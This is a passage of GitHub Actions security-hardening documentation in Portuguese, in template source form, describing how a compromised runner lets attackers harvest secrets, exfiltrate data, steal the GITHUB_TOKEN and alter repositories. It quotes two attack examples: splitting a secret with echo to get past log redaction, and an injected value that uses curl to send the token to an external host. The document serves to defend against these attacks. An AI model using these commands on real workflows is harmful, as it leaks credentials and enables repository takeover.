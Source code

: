   {% raw %}
  ```
  uses: fakeaction/publish@v3
  with:
      key: ${{ secrets.PUBLISH_KEY }}
  ```
  {% endraw %}

Embora {% data variables.product.prodname_actions %} limpe os segredos da memória que não estão referenciados no fluxo de trabalho (ou uma ação incluída), o `GITHUB_TOKEN` e todos os segredos referenciados podem ser colhidos por um determinado invasor.

### Exfiltrar dados de um executor

Um invasor pode exfiltrar todos os segredos roubados ou outros dados do executor. Para ajudar a evitar a divulgação acidental de segredos, {% data variables.product.prodname_actions %} [removeu automaticamente segredos editados impressos no registro](/actions/reference/encrypted-secrets#accessing-your-secrets), mas esta não é uma verdadeira fronteira de segurança, porque os segredos podem ser enviados intencionalmente para o registro. Por exemplo, segredos ofuscados podem ser exfiltrados usando `echo ${SOME_SECRET:0:4}; echo ${SOME_SECRET:4:200};`. Além disso, uma vez que o atacante pode executar comandos arbitrários, ele poderá usar solicitações HTTP para enviar segredos ou outros dados do repositório para um servidor externo.

### Roubar o trabalho do `GITHUB_TOKEN`

É possível para um invasor roubar o `GITHUB_TOKEN` de um trabalho. O executor de {% data variables.product.prodname_actions %} recebe automaticamente um `GITHUB_TOKEN` gerado com permissões limitadas apenas ao repositório que contém o fluxo de trabalho, e o token expira após a conclusão do trabalho. Uma vez expirado, o token não é mais útil para um invasor. Para contornar essa limitação, eles podem automatizar o ataque e executá-lo em frações de segundo chamando um servidor controlado pelo invasor com o token, por exemplo: `a"; set +e; curl http://example.lab?token=$GITHUB_TOKEN;#`.

### Modificando os conteúdos de um repositório

O servidor invasor pode usar A API de {% ifversion fpt or ghec %}{% data variables.product.prodname_dotcom %}{% else %}{% data variables.product.product_name %}{% endif %} para [modificar o conteúdo do repositório](/actions/reference/authentication-in-a-workflow#permissions-for-the-github_token), incluindo versões, se as permissões atribuídas de `GITHUB_TOKEN` [não forem restritas](/actions/reference/authentication-in-a-workflow#modifying-the-permissions-for-the-github_token).

## Considerar acesso entre repositórios

O {% data variables.product.prodname_actions %} tem um escopo intencional para um único repositório por vez. O `GITHUB_TOKEN` concede o mesmo nível de acesso que um usuário com acesso de gravação, porque qualquer usuário com acesso de gravação pode acessar esse token criando ou modificando um arquivo de fluxo de trabalho{% ifversion fpt or ghes > 3.1 or ghae or ghec %}, elevando as permissões do `GITHUB_TOKEN` se necessário{% endif %}. Usuários têm permissões específicas para cada repositório. Portanto, permitir que o `GITHUB_TOKEN` de um repositório conceda acesso a outro teria impacto no modelo de permissão de {% data variables.product.prodname_dotcom %} se não fosse implementado cuidadosamente. Da mesma forma, deve-se ter cuidado ao adicionar tokens de autenticação de {% data variables.product.prodname_dotcom %} a um fluxo de trabalho, porque isto também pode afetar o modelo de permissão de {% data variables.product.prodname_dotcom %} concedendo inadvertidamente amplo acesso aos colaboradores.
